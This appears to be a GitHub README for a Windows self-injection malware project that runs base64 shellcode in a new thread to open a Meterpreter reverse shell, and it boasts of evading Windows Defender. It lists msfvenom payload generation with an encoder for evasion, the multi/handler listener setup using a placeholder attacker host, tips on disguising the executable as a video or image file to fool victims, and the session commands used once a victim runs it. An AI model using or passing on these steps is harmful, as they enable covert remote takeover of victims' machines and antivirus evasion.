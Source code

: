 # Self-Injection-Reverse-Shell-Undetected
Self Injection Malware, currently UNDETECTED by windows defender, it creates a reverse shell on a target machine

# 💻 Code
This program injects base64 code into a self created process on the target machine. 

**Step by step guide**:
- First we define the base64 shellcode (make sure architecute is set to x86 and encoding to utf8 for the message box payload;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Then the code copies the shellcode into the newly allocated memory;
- It creates a new thread to execute the shellcode, since allocated_mem (which contains the shellcode) is cast to the function pointer type LPTHREAD_START_ROUTINE;
- Finally we wait for the created thread (which is running the shellcode) to finish executing before freeing the memory.

---

**Listener**: <img align="right" src="media/rev3.jpg" width="310" />

On the attacker's machine i used the classic multi handler exploit to run the payload: 

``` msfconsole ```

``` use exploit multi/handler  ```

``` set payload windows/meterpreter/reverse_tcp ```

``` set lhost XXX ```

``` set lport XXX ```

``` exploit ```

---

**Payload**: <img align="right" src="media/rev2.jpg" width="240" />

The payload is, as i said before, a simple non-encrypted base64 shellcode, you can make it with:

``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX -f c ```.

You can add a simple encryption by adding this ``` -e x86/shikata_ga_nai -f c  ```. 

In the future i will attempt to create my own encryption, since the well known ones are already pretty much detectable. 

---

**Shell**

You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file, complete with a new icon and a name, even the extension can be masked.
Once the victim runs the exe, a new session will pop up on meterpreter, and u can view it and use it with: <img align="right" src="media/rev1.jpg" width="400" />

``` sessions ```

``` sessions -i 1```

``` shell ```

Here is an example of writing powershell code through meterpreter     --------->

In this example it was a simple message box error, which worked smoothly.

---

# 🛡 Antivirus

The payload is currently undetected by windows defender, but it's easily blocked by Bitdefender, even the free trial.
